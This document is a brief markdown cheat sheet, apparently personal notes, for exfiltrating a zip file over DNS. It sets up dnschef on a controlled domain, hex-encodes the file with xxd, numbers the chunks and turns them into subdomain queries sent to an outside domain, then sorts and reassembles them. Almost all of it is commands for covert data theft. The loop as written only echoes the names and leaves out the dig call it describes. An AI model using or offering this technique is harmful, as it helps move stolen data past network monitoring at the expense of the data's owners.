 ### Run dns server on domain 

./dnschef.py -i <public ip> --fakeip 127.0.0.1 --logfile <logfile>

### Exfil using xxd and dig

xxd -p -c 8 4digits.hex.zip |  nl -s"." -nrz -w5 | while read h; do echo $h.<domain>; done

  xxd => hexdump in columns of 8 width
  nl => line numbering (-s = delimiter; -nrz = number format; -w width)
  dig => DNS request
  
### Re-assemble packets

xxd -r -p 4digits.hex

### sort packets
  
sort -h
